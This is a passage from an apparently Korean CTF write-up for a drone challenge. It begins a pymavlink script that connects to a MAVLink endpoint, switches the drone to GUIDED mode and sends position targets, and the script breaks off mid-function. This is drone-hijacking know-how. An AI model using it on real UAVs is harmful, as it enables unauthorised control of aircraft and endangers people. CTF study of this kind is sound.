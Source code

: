 ### Sky Recon

> category: Hardware
> keyword: drone, mavlink

이 문제는 두 개의 접속 가능한 ip를 제공해주며 하나는 드론 모니터링을 위한 웹 인터페이스, 다른 하나는 mavlink 통신을 제어하기 위한 주소에 해당됐다. 추가로 문제와 관련된 시나리오 파일이 존재하는데 이를 읽어보면 드론을 특정 지점으로 이동하여 착륙시키는 것이 조건으로 판단되었다.

익스플로잇 코드 작성은 GPT를 활용하여 가능했기 때문에 필요한 조건에 대해 기술하는 것으로 해결이 가능했다.

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
pymavlink로 이미 이륙된 드론을 GUIDED 모드로 전환 후
지정 GPS 좌표로 이동시킬 때까지 명령을 반복 전송하는 스크립트
"""

import time
import math
from pymavlink import mavutil

# ── 설정값 ───────────────────────────────────────────────────────────────
TARGET_LAT   = -35.36276     # 목표 위도
TARGET_LON   = 149.165771    # 목표 경도
TARGET_ALT   = 10.0          # 목표 고도 (m)
DIST_THRESH  = 1.0           # 수평 허용 반경 (m)
ALT_THRESH   = 0.5           # 수직 허용 오차 (m)
GUIDED_MODE  = 4             # ArduPilot에서 GUIDED 모드 ID :contentReference[oaicite:0]{index=0}
# ────────────────────────────────────────────────────────────────────────

def connect_and_set_guided(connection_str):
    """
    1) MAVLink/TCP 연결
    2) Heartbeat 수신 대기
    3) GUIDED 모드로 전환
    4) GUIDED 모드 진입 확인
    반환: (master, boot_time)
    """
    master = mavutil.mavlink_connection(connection_str)
    print(f"[INFO] {connection_str}에 연결 시도 중...")
    master.wait_heartbeat()
    print(f"[INFO] Heartbeat 수신됨. SYS_ID={master.target_system}, COMP_ID={master.target_component}")
    boot_time = time.time()

    # GUIDED 모드로 변경 요청
    master.mav.set_mode_send(
        master.target_system,
        mavutil.mavlink.MAV_MODE_FLAG_CUSTOM_MODE_ENABLED,
        GUIDED_MODE
    )
    # GUIDED 진입 확인 (Heartbeat의 custom_mode 필드 사용)
    print("[INFO] GUIDED 모드 전환 대기 중...")
    while True:
        msg = master.recv_match(type='HEARTBEAT', blocking=True, timeout=1)
        if msg and msg.custom_mode == GUIDED_MODE:
            print("[INFO] GUIDED 모드 진입 확인")
            break

    return master, boot_time

def send_position(master, boot_time, lat, lon, alt):
    """
    SET_POSITION_TARGET_GLOBAL_INT 메시지 전송
```